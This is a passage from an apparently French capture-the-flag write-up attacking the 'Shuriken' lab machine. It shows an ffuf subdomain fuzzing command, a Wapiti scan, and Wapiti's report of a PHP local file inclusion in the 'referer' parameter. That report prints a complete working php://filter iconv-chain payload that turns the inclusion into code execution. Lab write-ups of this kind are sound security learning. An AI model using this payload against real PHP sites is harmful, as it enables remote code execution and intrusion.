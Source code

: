 ```bash
ffuf -w fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt -u http://192.168.56.56/ -H "Host: FUZZ.shuriken.local" -fs 6021
```

Mais cela ne m'a remonté que `broadcast` que je connais déjà.

J'ai lancé [Wapiti](https://wapiti-scanner.github.io/) sur l'URL avec la commande suivante :

```bash
wapiti -u 'http://shuriken.local/index.php?referer=toto' --scope url -v2
```

et il a aussitôt trouvé une faille d'inclusion :

```
---
PHP local inclusion leading to code execution in http://shuriken.local/index.php via injection in the parameter referer
Evil request:
    GET /index.php?referer=php%3A%2F%2Ffilter%2Fconvert.iconv.UTF8.CSISO2022KR%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP866.CSUNICODE%7Cconvert.iconv.CSISOLATIN5.ISO_6937-2%7Cconvert.iconv.CP950.UTF-16BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.865.UTF16%7Cconvert.iconv.CP901.ISO6937%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.MS932.MS936%7Cconvert.iconv.BIG5.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM921.NAPLPS%7Cconvert.iconv.855.CP936%7Cconvert.iconv.IBM-932.UTF-8%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.IBM869.UTF16%7Cconvert.iconv.L3.CSISO90%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.L6.UNICODE%7Cconvert.iconv.CP1282.ISO-IR-90%7Cconvert.iconv.CSA_T500.L4%7Cconvert.iconv.ISO_8859-2.ISO-IR-103%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.863.UTF-16%7Cconvert.iconv.ISO6937.UTF16LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.DEC.UTF-16%7Cconvert.iconv.ISO8859-9.ISO_6937-2%7Cconvert.iconv.UTF16.GB13000%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.JS.UNICODE%7Cconvert.iconv.L4.UCS2%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.863.UTF-16%7Cconvert.iconv.ISO6937.UTF16LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1162.UTF32%7Cconvert.iconv.L4.T.61%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.JS.UNICODE%7Cconvert.iconv.L4.UCS2%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.IBM869.UTF16%7Cconvert.iconv.L3.CSISO90%7Cconvert.iconv.R9.ISO6937%7Cconvert.iconv.OSF00010100.UHC%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.UTF8.CSISO2022KR%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.863.UTF-16%7Cconvert.iconv.ISO6937.UTF16LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP-AR.UTF16%7Cconvert.iconv.8859_4.BIG5HKSCS%7Cconvert.iconv.MSCP1361.UTF-32LE%7Cconvert.iconv.IBM932.UCS-2BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP-AR.UTF16%7Cconvert.iconv.8859_4.BIG5HKSCS%7Cconvert.iconv.MSCP1361.UTF-32LE%7Cconvert.iconv.IBM932.UCS-2BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.L6.UNICODE%7Cconvert.iconv.CP1282.ISO-IR-90%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.BIG5HKSCS.UTF16%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM921.NAPLPS%7Cconvert.iconv.855.CP936%7Cconvert.iconv.IBM-932.UTF-8%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.8859_3.UTF16%7Cconvert.iconv.863.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1046.UTF16%7Cconvert.iconv.ISO6937.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1046.UTF32%7Cconvert.iconv.L6.UCS-2%7Cconvert.iconv.UTF-16LE.T.61-8BIT%7Cconvert.iconv.865.UCS-4LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.MAC.UTF16%7Cconvert.iconv.L8.UTF16BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CSIBM1161.UNICODE%7Cconvert.iconv.ISO-IR-156.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.INIS.UTF16%7Cconvert.iconv.CSIBM1133.IBM943%7Cconvert.iconv.IBM932.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.MS932.MS936%7Cconvert.iconv.BIG5.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.base64-decode%2Fresource%3Dphp%3A%2F%2Ftemp HTTP/1.1
    host: shuriken.local
    connection: keep-alive
```
